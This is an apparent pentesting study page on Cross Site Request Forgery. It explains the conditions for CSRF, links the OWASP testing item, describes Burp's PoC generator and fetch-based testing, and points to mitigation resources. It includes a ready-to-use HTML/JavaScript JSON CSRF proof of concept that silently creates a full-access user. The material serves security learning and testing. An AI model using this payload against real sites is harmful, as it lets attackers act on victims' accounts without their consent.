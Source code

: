 ```yaml
---
title: CSRF attack - Cross Site Request Forgery
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web
  - pentesting
  - attack
  - HTTP
  - headers
---
```


# CSRF attack - Cross Site Request Forgery


??? quote "OWASP"
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 6. Session Management Testing > 6.5. Testing for Cross Site Request Forgery

    | ID  | Link to Hackinglife                      | Link to OWASP                                                                                                                                                                                                        | Description                                                                                                                                                                           |
    | :-- | :--------------------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
    | 6.5 | [WSTG-SESS-05](../OWASP/WSTG-SESS-05.md) | [Testing for Cross Site Request Forgery](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery) | - Determine whether it is possible to initiate requests on a user's behalf that are not initiated by the user.  - Conduct URL analysis, Direct access to functions without any token. |


Cross Site Request Forgery (CSRF)  is a type of web security vulnerability that occurs when an attacker tricks a user into performing actions on a web application without their knowledge or consent. A successful CSRF exploit can compromise end user data and operation when it targets a normal user. If the targeted end user is the administrator account, a CSRF attack can compromise the entire web application. 

CSRF vulnerabilities may arise when applications rely solely on HTTP cookies to identify the user that has issued a particular request. Because browsers automatically add cookies to requests regardless of the request's origin, it may be possible for an attacker to create a malicious web site that forges a cross-domain request to the vulnerable application.

Three conditions that enable CSRF:

- A relevant action.
- Cookie-based session handling.
- No unpredictable request parameters.


### How it works

```
The attacker crafts a malicious request (e.g., changing the user's email address or password) and embeds it in a web page, email, or some other form of content.

The attacker lures the victim into loading this content while the victim is authenticated in the target web application.

The victim's browser automatically sends the malicious request, including the victim's authentication cookie.

The web application, trusting the request due to the authentication cookie, processes it, causing the victim's account to be compromised or modified.
```

CSRF attacks can have serious consequences: 

- Unauthorized changes to a user's account settings.
- Fund transfers or actions on behalf of the user without their consent.
- Malicious actions like changing passwords, email addresses, or profile information.

## How to test CSRF by using Burpsuite proof of concept

Burp has a quite awesome PoC so you can generate HTML (and javascript) code to replicate this attack.

1. Select a URL or HTTP request anywhere within Burp, and choose Generate CSRF PoC within Engagement tools in the context menu. 
![Step 1](../img/csrf-1.png)


2. You have two buttons: one for editing the request manually (Regenerate button) the HTML based on the updated request; and tje ptjer to test the effectiveness of the generated PoC in Burp's browser (Test in browser button).

3. Open the crafted page from the same browser where the user has been logged in.

4. Observe the result, i.e. check if the web server executed the request.


### Fetch API

Requirements:

1. Authentication Method should be cookie based only
2. No Authentication Token in Header
3. Same-Origin Policy should not be enforced

Browser -> Network tab in development tools, right click on request and copy as fetch:

![f](../img/fetch.png)

### Json CSRF

Resources: [https://systemweakness.com/ways-to-exploit-json-csrf-simple-explanation-5e77c403ede6](https://systemweakness.com/ways-to-exploit-json-csrf-simple-explanation-5e77c403ede6)

POC: source [rootsploit.com](https://rootsploit.com/2020/08/01/exploiting-csrf-on-json-endpoint-w-o-flash/)

```html
# Change the URL and Body from the PoC file to perform the CSRF on JSON Endpoint.
<html>
<title>CSRF Exploit POC by RootSploit</title>

<body>
    <center>
        <h1> CSRF Exploit POC by RootSploit</h1>

        <script>
            function JSON_CSRF() {
                fetch('https://vuln.rootsploit.io/v1/addusers', { method: 'POST', credentials: 'include', headers: { 'Content-Type': 'application/json' }, body: '{"user":{"role_id":"full_access","first_name":"RootSploit","last_name":"RootSploit","email":"csrf-test@rootsploit.com","password":"Password@","confirm_password":"Password@","mobile_number":"99999999999"}}' });
				window.location.href="https://rootsploit.com/csrf"
			}
        </script>

        <button onclick="JSON_CSRF()">Exploit CSRF</button>
    </center>
</body>

</html>

```

## Mitigation

[Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#cross-site-request-forgery-prevention-cheat-sheet "Permanent link")

## Related labs

+ [https://portswigger.net/web-security/all-labs#cross-site-request-forgery-csrf](https://portswigger.net/web-security/all-labs#cross-site-request-forgery-csrf)


## Resources

When it comes to web vulnerabilities, it is useful to have some links at hand:

+ Owasp vuln description: [https://owasp.org/www-community/attacks/csrf](https://owasp.org/www-community/attacks/csrf).
+ Using Burp to Test for Cross-Site Request Forgery (CSRF): [https://portswigger.net/support/using-burp-to-test-for-cross-site-request-forgery](https://portswigger.net/support/using-burp-to-test-for-cross-site-request-forgery).
+ PoC with Burp, official link: [https://portswigger.net/burp/documentation/desktop/functions/generate-csrf-poc](https://portswigger.net/burp/documentation/desktop/functions/generate-csrf-poc).


## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](../OWASP/index.md).



